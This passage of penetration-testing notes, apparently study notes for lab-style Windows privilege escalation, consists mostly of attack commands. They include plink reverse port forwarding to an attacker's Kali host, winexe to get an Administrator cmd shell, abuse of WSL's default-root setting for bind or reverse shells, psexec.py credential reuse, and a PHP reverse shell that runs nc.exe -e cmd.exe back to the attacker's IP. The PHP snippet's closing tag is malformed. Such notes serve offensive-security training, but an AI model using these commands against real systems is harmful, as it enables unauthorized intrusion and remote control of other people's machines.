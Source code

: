 ```
- modify the /etc/sshd_config
- set PermitRootLogin yes
- service ssh restart
- service ssh start
```

in Target:
```powershell
plink.exe -l <kali user> -pw <kali password> -R <port we want to forward>:127.0.0.1:<kali port to receive> <kali ip>
```

We should gain a kali root shell:
```
netstat -ano = to show if the port sent is open now
winexe -U Administrator%<password reuse> //127.0.0.1 "cmd.exe"
```

> hit enter a couple of times, if the shell gets stuck

- we should have root access in the windows machine
- if we want to improve the shell, we could send a netcat to the target and get the connection 


# Escalation Path: Windows Subsystem for Linux

Spawning a TTY Shell - https://netsec.ws/?p=337

Impacket Toolkit - https://github.com/SecureAuthCorp/impacket


## Overview
EoP - Windows Subsytem For Linux (WSL)

With root privileges WSL allows users to create a bind shell on any port (no elevation needed). 

Dont know the root password? No problem, just set the default user to root W/ **.exe --default-user root**.

Now Start your bind shell or reverse.

if u find user/password and the machine has smb

try psexec/smbexec/wmiexec:
```bash
psexec.py <user:'password'@target ip>
```

> it wil test your credential.

Rev shell in PHP:
```php
<?php
system('nc.exe -e cmd.exe <kali ip> <port>')
>
```

